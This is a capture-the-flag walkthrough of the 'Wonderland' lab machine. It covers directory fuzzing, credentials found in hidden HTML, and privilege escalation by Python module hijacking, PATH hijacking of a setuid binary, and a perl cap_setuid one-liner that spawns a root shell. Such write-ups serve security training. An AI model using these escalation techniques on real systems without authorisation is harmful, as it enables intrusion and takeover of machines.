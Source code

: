 # Wonderland

_24th August 2020_

## Host enumeration

The initial scan reports the following.

```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
```

### Analysis

Since HTTP is running on port 80, we can proceed to view the web page on `http://<IP>/`

## Web enumeration

Initial enumerations with wfuzz and `directory-list-medium` reveals a directory `/r` on the web server. Going with the general theme, `/a`, `/b`, `/i` and `/t` are all valid subdirectories. So, we navigate to `http://<IP>/r/a/b/b/i/t/` and sure enough, it gives us a web page.

### Analysis

A piece of code like so exists in the source code and seems to be the credentials for the user (alice).

```html
<p style="display: none;">alice:password</p>
```

## SSH

Trying to log in with the previous credentials to `alice@<IP>`, we get a shell.

```
alice@wonderland:~$
```

### Analysis

The current directory has the following files.

```
drwxr-xr-x 5 alice alice 4096 May 25 17:52 .
drwxr-xr-x 6 root  root  4096 May 25 17:52 ..
lrwxrwxrwx 1 root  root     9 May 25 17:52 .bash_history -> /dev/null
-rw-r--r-- 1 alice alice  220 May 25 02:36 .bash_logout
-rw-r--r-- 1 alice alice 3771 May 25 02:36 .bashrc
drwx------ 2 alice alice 4096 May 25 16:37 .cache
drwx------ 3 alice alice 4096 May 25 16:37 .gnupg
drwxrwxr-x 3 alice alice 4096 May 25 02:52 .local
-rw-r--r-- 1 alice alice  807 May 25 02:36 .profile
-rw------- 1 root  root    66 May 25 17:08 root.txt
-rw-r--r-- 1 root  root  3577 May 25 02:43 walrus_and_the_carpenter.py
```

The python script seems to randomly display 10 lines from a poem string.

```
The line was:	 And why the sea is boiling hot —
The line was:	 And this was odd, because, you know,
The line was:	 The sands were dry as dry.
The line was:	 And more, and more, and more —
The line was:	 There were no birds to fly.
The line was:	 Shining with all his might:
The line was:	 "A pleasant walk, a pleasant talk,
The line was:	 They wept like anything to see
The line was:	 "It seems a shame," the Walrus said,
The line was:	 All hopping through the frothy waves,
```

Checking the rights for the current user with `sudo -l`, we find the following.

```
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

So, We can run sudo `/usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py` as the user (rabbit).
Since the script uses the `random` module, we can create a malicious script as a fake random module in the same directory so that the script executes our `random.py` instead of the real random module.

## Privilege escalation

The script to get shell can be created as follows.

```
import os

os.system('/bin/bash')
```

This is now stored as `random.py` in the same directory.

### Analysis

Upon execution as the user (rabbit) as `alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`, we get

```
rabbit@wonderland:~$
```

We have successfully escalated our privileges to the (rabbit) user.

## Execution flow hijacking

Looking in the rabbit directory at `/home/rabbit`, we find a file called teaParty which is a setuid Linux binary. Running it gives us the following.

```
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Mon, 24 Aug 2020 18:03:53 +0000
Ask very nicely, and I will give you some tea while you wait for him
```

Upon further examination of the source on downloading, we find that the binary uses the date command in bash. We can manipulate the PATH variable of this file and obtain a shell from the user which this file actually belongs to by creating a new bash script to get a shell (/bin/bash) and setting the new path like so: `export PATH=/home/rabbit:$PATH`.

### Analysis

Doing so gives us the prompt

```
hatter@wonderland:/home/rabbit$
```

We have escalated ourselves to the (hatter) user. Upon navigating to the `/home/hatter` directory, we find a `password.txt` file which contains a password for the (hatter) user. Checking for the rights of the user (hatter) with `sudo -l` does not give us much. Doing some basic enumeration reveals that perl has the following capability set: `cap_setuid+ep`. `perl` does not seem to run on the shell so we use the password obtained previously to get superuser by running `su hatter`(gid changes).

## Privilege escalation to (root)

Since we need to abuse the setuid capability using perl, we can check for the same on [gtfobins](https://gtfobins.github.io/gtfobins/perl/). This gives us an entry like so.

```sh
./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

So we run the same on the machine using `/usr/bin/perl` and we get a shell for the (root) user.

### Analysis

Navigating to the `/home/alice` directory we find that we can now open the file `root.txt` and that it contatains the flag for the challenge. Navigating to `/root` gives us a file `user.txt` with another flag for the additional question.
